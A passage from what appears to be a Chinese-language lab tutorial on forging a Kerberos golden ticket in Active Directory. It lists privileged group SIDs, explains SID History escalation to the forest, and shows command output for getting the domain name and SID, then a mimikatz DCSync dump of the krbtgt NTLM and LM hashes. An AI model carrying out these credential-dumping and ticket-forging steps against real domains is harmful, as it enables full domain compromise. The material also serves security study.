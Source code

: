 - 域管理员SID：S-1-5-21 <DOMAINID> -512

- 架构管理员SID：S-1-5-21 <DOMAINID> -518

- 企业管理员SID：S-1-5-21 <DOMAINID> -519（对于有多个子域的域林，企业管理员的Domain SID只在森林根域中，所以传入子域的Domain SID是无法伪造企业管理员账户的，可以使用/sids参数将域林管理员SID添加到SID History中，权限进一步从子域提升到整个域林）

- 组策略创建者所有者SID：S-1-5-21 <DOMAINID> -520



**step 1. 获取domain name**

```
C:\Users\win10>ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : win10-pc
   Primary Dns Suffix  . . . . . . . : ring2.com
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : ring2.com
```

**step 2. 获取域SID**

```
C:\Users\win10>whoami /all

USER INFORMATION
----------------

User Name   SID
=========== ============================================
ring2\win10 S-1-5-21-2475887593-94489213-2292866110-1103
```

**step 3. 获取krbtgt hash**

```
mimikatz # lsadump::dcsync /user:krbtgt
[DC] 'ring2.com' will be the domain
[DC] 'ringdc-pc.ring2.com' will be the DC server
[DC] 'krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/10/2020 10:58:42 AM
Object Security ID   : S-1-5-21-2475887593-94489213-2292866110-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 29bb608cc69ec270aed8805b190cff38
    ntlm- 0: 29bb608cc69ec270aed8805b190cff38
    lm  - 0: 67caa7fabf71d94ac00ec2adfaa076f0
```
